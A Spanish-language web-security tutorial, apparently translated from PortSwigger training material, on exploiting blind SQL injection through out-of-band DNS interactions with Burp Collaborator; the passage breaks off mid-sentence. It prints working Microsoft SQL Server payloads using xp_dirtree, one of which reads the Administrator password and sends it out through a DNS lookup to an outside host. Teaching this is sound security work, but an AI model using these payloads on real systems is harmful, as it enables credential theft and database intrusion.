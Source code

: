 ## Explotación de la inyección SQL ciega utilizando técnicas fuera de banda (OAST)

Una aplicación podría ejecutar la misma consulta SQL que en el ejemplo anterior, pero hacerlo de forma asincrónica. La aplicación continúa procesando la solicitud del usuario en el hilo original y utiliza otro hilo para ejecutar una consulta SQL utilizando la cookie de seguimiento. La consulta sigue siendo vulnerable a la inyección SQL, pero ninguna de las técnicas descritas hasta ahora funcionará. La respuesta de la aplicación no depende de que la consulta devuelva datos, de que se produzca un error en la base de datos o del tiempo que tarde en ejecutarse la consulta.

En esta situación, a menudo es posible explotar la vulnerabilidad de inyección SQL ciega activando interacciones de red fuera de banda con un sistema que usted controla. Estos pueden activarse en función de una condición inyectada para inferir información pieza por pieza. Lo que es más útil es que los datos se pueden extraer directamente dentro de la interacción de la red.

Se pueden utilizar diversos protocolos de red para este fin, pero normalmente el más eficaz es el DNS (servicio de nombres de dominio). Muchas redes de producción permiten la salida libre de consultas DNS porque son esenciales para el funcionamiento normal de los sistemas de producción.

## Explotación de la inyección SQL ciega utilizando técnicas fuera de banda (OAST): continuación

La herramienta más sencilla y fiable para utilizar técnicas fuera de banda es Burp Collaborator. Este es un servidor que proporciona implementaciones personalizadas de varios servicios de red, incluido DNS. Le permite detectar cuándo se producen interacciones de red como resultado del envío de cargas útiles individuales a una aplicación vulnerable. Burp Suite Professional incluye un cliente integrado que está configurado para funcionar con Burp Collaborator desde el primer momento. Para obtener más información, consulte la documentación de Burp Collaborator.

Las técnicas para activar una consulta DNS son específicas del tipo de base de datos que se utilice. Por ejemplo, la siguiente entrada en Microsoft SQL Server se puede utilizar para provocar una búsqueda DNS en un dominio específico:

`'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`


Esto hace que la base de datos realice una búsqueda para el siguiente dominio:

`0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`

Puede utilizar Burp Collaborator para generar un subdominio único y sondear el servidor de Collaborator para confirmar cuándo se producen búsquedas de DNS.

## Explotación de la inyección SQL ciega mediante técnicas fuera de banda (OAST) - Continuación

Una vez confirmada una forma de desencadenar interacciones fuera de banda, puede utilizar el canal fuera de banda para extraer datos de la aplicación vulnerable. Por ejemplo:

`'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`

Esta entrada lee la contraseña del `Administrator`usuario, agrega un subdominio de colaborador único y activa una búsqueda de DNS. Esta búsqueda le permite ver la contraseña capturada:
